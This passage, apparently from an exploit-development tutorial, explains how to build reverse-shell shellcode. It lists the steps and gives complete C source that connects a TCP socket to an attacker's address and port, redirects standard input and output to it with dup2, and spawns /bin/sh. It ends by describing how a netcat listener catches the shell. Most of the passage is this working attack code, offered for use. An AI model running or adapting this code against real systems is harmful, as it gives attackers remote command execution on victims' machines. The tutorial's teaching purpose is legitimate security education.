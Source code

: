 ```cpp
int dup2(int oldfd, int newfd);
```

By duplicating the remote file descriptors, the output (or errors) of the executed commands will also be sent to our socket, which will then transmit the data across the network to our attacking machine.

To create a reverse shell shellcode, we need to:

- Create a socket compatible with TCP
- Connect it to the attacker.
- Duplicate the File Descriptors of stdin, stdout and stderr back to the reverse shell’s socket; this actually has to be done before bash is spawned, otherwise after bash is invoked we will not able to access its descriptors.
- Spawn a bash shell.

```cpp
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    int i; //for later use in fd replication
    int sockfd; //this will hold the file descriptor of our socket
    struct sockaddr_in sock_addr; // the socket requires passing the target address and port.
                                  //It accepts that data formed into a structure of type sockaddr_in. Before we use that structure, we need to declare it.

    //now, we define the elements of the structure that will contain socket properties
    sock_addr.sin_family = AF_INET; // address family - internet protocol address (IP)
    sock_addr.sin_port = htons( 4444 ); // target port. function htons() converts it to network byte order in similar way as we need to convert data passed to memory to little-endian
    sock_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // target ip, also adjusted to meet network byte order requirements.

    // Socket is created and reference to it is held in sockfd variable.
    sockfd = socket( AF_INET, SOCK_STREAM, IPPROTO_IP );

    // Socket is put in connect state accordingly to properties set in sock_addr structure
    connect(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));

    // we want to duplicate all the file descriptors related to I/O (so number 0,1,2), and we do it using a loop
    for(i = 0; i <= 2; i++)
        dup2(sockfd, i);
    // spawn the bash shell
    execve( "/bin/sh", NULL, NULL );
}
```

As we compile it and set a netcat listener on port `4444`, we receive a shell upon launching the `shell` executable:
